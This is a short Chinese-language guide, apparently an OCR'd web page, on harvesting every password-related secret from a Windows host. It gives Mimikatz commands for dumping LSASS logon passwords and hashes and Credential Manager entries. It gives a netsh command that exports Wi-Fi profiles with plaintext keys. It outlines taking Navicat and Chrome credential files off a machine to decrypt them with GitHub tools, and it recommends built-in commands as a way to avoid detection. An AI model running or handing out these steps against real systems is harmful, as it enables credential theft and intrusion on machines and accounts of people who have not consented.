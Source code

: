 ### 怎么收集主机上的所有有关密码的敏感信息

**1. Mimikatz 抓取系统和 RDP 凭证**

Mimikatz 是绕过 Windows 安全机制、在内存中抓取明文密码或哈希的旗舰工具

- **抓取系统登录密码/哈希 (LSASS 内存)：**

  ```
  mimikatz.exe
  privilege::debug
  sekurlsa::logonpasswords
  ```

- **抓取 RDP/保存的 Windows 凭证 (Credential Manager)：**

  ```
  mimikatz.exe
  privilege::debug
  sekurlsa::credman
  ```

**2. Wi-Fi 密码抓取**

作为渗透测试工程师，我们倾向于使用系统自带的命令来减少被检测的风险。

- **步骤一：导出所有 Wi-Fi 配置文件**

  ```powershell
  netsh wlan export profile key=clear folder=C:\Temp
  ```

  （注意：key=clear 会导出明文密码）

- **步骤二：提取密码** 读取导出的 `C:\Temp` 目录下的 XML 文件，搜索 `<keyMaterial>` 标签即可找到明文密码

**3. 针对特定软件凭证 (Xshell, Navicat, 浏览器)**

对于这些应用软件，通常需要找到对应的**开源解密工具**，这些工具通常托管在 GitHub 上，专门针对该软件的特定加密算法进行逆向和解密

- **一般操作流程：**
  1. 找到目标软件的配置文件或数据库文件（例如，Navicat 的 `.ncx` 文件、Chrome 的 `Login Data` SQLite 文件）
  2. 将文件下载到本地（如果权限允许）
  3. 使用对应的 GitHub 开源解密工具进行解密